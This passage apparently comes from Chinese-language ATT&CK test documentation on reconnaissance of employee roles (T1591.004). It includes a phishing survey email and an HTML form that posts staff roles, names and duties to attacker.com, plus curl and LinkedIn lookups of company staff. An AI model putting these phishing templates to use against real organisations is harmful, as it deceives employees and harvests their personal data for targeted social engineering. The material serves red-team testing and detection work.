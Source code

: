 - 关联 T1591.004：通过社交媒体获取角色信息。

#### 测试案例 3：钓鱼收集角色信息
**关联技术**：T1591.004（角色信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造的邮件或调查问卷，诱导员工泄露角色信息，如职位、职责或联系方式。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: IT 部门问卷调查
  Body: 请提供您的职位、姓名和主要职责以协助技术支持：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      职位: <input type="text" name="role">
      姓名: <input type="text" name="name">
      职责: <input type="text" name="responsibilities">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
role=Network Administrator&name=Li Mei&responsibilities=Manage Cisco switches
```
**说明**：  
- 钓鱼攻击可直接收集角色信息，为精准社交工程或账号爆破提供基础。  
- 关联 T1591.004：通过钓鱼获取角色信息。

#### 测试案例 4：查询公开技术数据库或公司官网
**关联技术**：T1591.004（角色信息收集）  
**说明**：  
- 攻击者通过公司官网、社交媒体或公开数据库（如 Crunchbase、ZoomInfo）查询目标组织的员工角色信息。  
**示例操作**：
```bash
# 访问公司官网的“关于我们”页面
curl https://example.com/about
# 或在 LinkedIn 查询公司员工
```
**输出示例**：
```
Organization: example.com
Role: IT Manager
Name: Wang Tao
Email: tao.wang@example.com
```
**说明**：  
- 公司官网或公开数据库可能暴露员工的姓名、职位或联系方式。  
- 关联 T1591.004：通过公开数据源获取角色信息。

## 测试复现
